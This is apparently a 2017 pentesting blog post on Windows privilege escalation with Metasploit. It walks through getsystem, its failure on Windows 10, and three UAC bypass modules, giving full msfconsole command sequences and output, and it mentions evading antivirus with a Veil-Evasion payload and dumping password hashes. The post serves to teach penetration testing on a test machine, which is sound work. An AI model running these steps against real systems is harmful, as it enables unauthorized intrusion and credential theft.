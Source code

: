 ```yaml
---
title: Privilege Escalation in Windows
date: 2017-05-14 00:00:00 Z
subtitle: A Closer Look at Metasploit's Sweet Spots
layout: post
comments: true
author: Alan
---
```


Dusting off `msfconsole` and the Metasploit framework itself, it was time for me to get back on my feet with penetration testing.

With the recent ransomware [WannaCry](http://www.cnn.com/2017/05/14/opinions/wannacrypt-attack-should-make-us-wanna-cry-about-vulnerability-urbelis/) spreading throughout the globe, I pondered upon the question on how malware is able to attain system-level privileges on a Windows machine, locking it down, and making it near-impossible to circumvent.

When utilizing Metasploit against Windows targets, its essential to escalate user privileges to __SYSTEM__, otherwise being stuck on a user account with regular permissions limit the pentest. As penetration testers, privilege escalation is considered the most critical point of the post-exploitation step, and all the hard work from gaining initial access, maintaining persistence and circumventing the anti-virus will all seem meaningless.

What are some fun things we can do once we attain __SYSTEM__?

* Attain passwords, including hashes for any accounts on the system ('hashdump')
* Change passwords, create users and change permissions (even administration)
* Pivot to other workstations

A lot of the higher system-level functions of Metasploit rely on gaining system. Many penetration testers work immediately at privilege escalation once the machine is pwn`ed.

Metasploit's `meterpreter` console comes with some built-in Ruby scripts that can already help with the process.

    msf exploit(ms08_067_netapi) > exploit
    ...
    meterpreter > getsystem

In this case, I utilized the built in `getsystem` script. Well, what __exactly__ does `getsystem` do? `getsystem` works on three different techniques. Although I won't go in detail about how they work, Cobalt Strike (a Metasploit GUI framework) wrote a [great blog post](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/) about it.

This exploit, CVE-2008-4250, is one of the staples of vulnerabilities in the early Windows XP operating systems. Yes, Windows __XP__. What happens if we attempt to gain privileges on a pwn'ed Windows 8 or 10 machine?


    msf exploit(handler) > exploit
    ...
    meterpreter > getsystem
    [-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
    [-] Named Pipe Impersonation (In Memory/Admin)
    [-] Named Pipe Impersonation (Dropper/Admin)
    [-] Token Duplication (In Memory/Admin)

Using a standard Veil-Evasion encrypted Meterpreter payload binary, I gained physical access inside my test Windows 10 machine. Not as fun as fileless access, but gets the work done. However, when we attempt to utilize `getsystem` this time, all three methods of it ceased to work. Even doing `getprivs` doesn't yield us that many permissions.

    meterpreter > getprivs
    ============================================================
    Enabled Process Privileges
    ============================================================
    SeShutdownPrivilege
    SeChangeNotifyPrivilege
    SeUndockPrivilege

And keep in mind that this is a standard Windows 10 machine WITHOUT any AVs except for the standard Windows Defender. So, what happened?

## User Account Control

Now's a great time to talk about Window's UAC, or User Account Control feature. This feature was implemented as a security feature such that hackers are not able to gain privileges. This means that in order for a regular user to utilize some sort of service of application that is available exclusively to the administrator, a popup prompt will pop out requesting authentication as a Administrator. Sounds familiar? You definitely has seen UAC before, with all its warnings about unknown publishers for some applications, turning off certain features in the Windows settings, etc.

![uac](http://bit.ly/2qGTpjE)

On Windows 10, UAC has become much more stricter, such that impersonating SYSTEM with `getsystem` becomes much harder ... but not impossible. 

## A Few Methods to Bypass UAC

In order to circumvent this, we need to rely on some different techniques. 

### Windows Escalate UAC Protection Bypass

This is a method which spawns a new shell session with UAC disabled as a process. This attack works, however, on the basis that UAC is set as "Notify me only when programs try to make changes to my computer", which is standard for many operating systems.

 Let's background our current `meterpreter` session and load it up.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/bypassuac
    msf(bypassuac) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64
    
    msf(bypassuac) > set TARGET 1
    TARGET => 1
    msf(bypassuac) > set SESSION 2
    SESSION => 2
    msf(bypassuac) > exploit
    ...

Once complete, we are able to `getsystem` as we did previously.

Of course, this may not totally work. If UAC is set to "Always Notify", loading this process as part of memory will fail. Therefore, if you use a build of Windows that is Vista it will not work, as this is feature is default. In this case, the attack against my Windows 10 build failed

    msf exploit(bypassuac) > exploit

    [*] Started reverse TCP handler on 192.168.1.170:4444 
    [-] Exploit aborted due to failure: not-vulnerable: Windows 10 (Build 14393). is not vulnerable.
    [*] Exploit completed, but no session was created.


### Windows Escalate UAC Protection Bypass (In Memory Injection)

This exploit aims to to inject a DLL binary through the Reflective DLL Injection technique. Similar to the previous exploit, it is important to specify the architecture of the machine.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/bypassuac_injection
    msf(bypassuac_injection) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(bypassuac_injection) > set TARGET 0
    TARGET => 0
    msf(bypassuac_injection) > set SESSION 2
    SESSION => 2
    msf(bypassuac_injection) > exploit
    ...

### Windows Escalate UAC Execute RunAs

This last exploit was actually from [this Metasploitation video](https://www.youtube.com/watch?v=OqmxRIqC3FE&feature=youtu.be) and was conceived by Hak5's [mubix](https://room362.com/). I find this privilege escalation method the most effective, but it does add on a caveat of the target user having to explicitly click on a UAC notification. This exploit calls upon the Windows `ShellExecute` function to start a shell with UAC-bypassed privileges. Once again, it is important that you set the necessary target architecture.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/ask
    msf(ask) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(ask) > set TARGET 0
    TARGET => 0
    msf(ask) > set SESSION 2
    SESSION => 2
    msf(ask) > exploit
    ...

Once executed, UAC will give a prompt to a user. Once completed, the exploit finishes, and you are able to `getsystem`.

---

Thanks for reading this article! Although I had fun getting my feet wet with Metasploit again, I still am reminded about how uninformed I am about the Win API, and really want to dive into binary exploitation, as well as acquainting myself with the Windows architecture for security-oriented purposes. With that said, expect some more fun stuff in the future combining both penetration testing and programming!

With that said, stay safe and good luck with your endeavors!